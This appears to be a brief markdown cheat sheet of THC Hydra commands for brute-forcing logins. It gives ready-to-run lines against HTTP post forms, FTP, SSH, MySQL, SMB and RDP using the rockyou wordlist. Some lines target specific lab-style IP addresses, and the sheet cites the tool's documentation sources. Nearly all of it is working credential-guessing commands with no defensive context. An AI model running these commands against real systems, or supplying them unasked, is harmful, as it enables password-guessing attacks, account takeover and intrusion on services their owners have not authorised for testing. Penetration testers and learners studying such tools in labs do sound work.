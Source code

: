 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "Login Page:<Request Body:Error Message"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://Target_IP

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://IP_Address:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://IP_Address:33389/

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
